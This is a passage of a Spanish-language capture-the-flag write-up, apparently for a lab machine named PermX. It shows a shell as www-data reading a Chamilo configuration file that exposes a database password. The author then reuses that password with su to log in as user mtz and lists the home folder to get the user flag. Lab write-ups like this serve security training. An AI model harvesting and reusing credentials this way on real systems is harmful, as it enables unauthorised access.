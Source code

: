 En `app/config/configuration.php` está lo siguiente que parece ser interesante:

```bash
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php | head -n 50
<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
... [snip]
```

En la carpeta `/home/` vemos que hay un usuario:

```bash
www-data@permx:/var/www/chamilo/app/config$ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Jan 20  2024 .
drwxr-xr-x 18 root root 4096 Jul  1 13:05 ..
drwxr-x---  6 mtz  mtz  4096 Nov  1 20:08 mtz
```

Si probamos a utilizar esta contraseña que encontramos con este usuario, accederemos como él:

```bash
www-data@permx:/var/www/chamilo/app/config$ su mtz
Password: 
mtz@permx:/var/www/chamilo/app/config$
```

En su carpeta personal podremos encontrar la primera flag:

```bash
mtz@permx:~$ ls -la
total 860
drwxr-x---  6 mtz  mtz    4096 Nov  1 20:08 .
drwxr-xr-x  3 root root   4096 Jan 20  2024 ..
lrwxrwxrwx  1 root root      9 Jan 20  2024 .bash_history -> /dev/null
-rw-r--r--  1 mtz  mtz     220 Jan  6  2022 .bash_logout
-rw-r--r--  1 mtz  mtz    3771 Jan  6  2022 .bashrc
drwx------  2 mtz  mtz    4096 May 31 11:14 .cache
drwx------  3 mtz  mtz    4096 Nov  1 17:09 .gnupg
-rw-------  1 mtz  mtz      20 Nov  1 17:56 .lesshst
drwxrwxr-x  3 mtz  mtz    4096 Nov  1 17:48 .local
lrwxrwxrwx  1 root root      9 Jan 20  2024 .mysql_history -> /dev/null
-rw-r--r--  1 mtz  mtz     807 Jan  6  2022 .profile
drwx------  2 mtz  mtz    4096 Jan 20  2024 .ssh
-rw-r-----  1 root mtz      33 Nov  1 10:02 user.txt
mtz@permx:~$ cat user.txt
```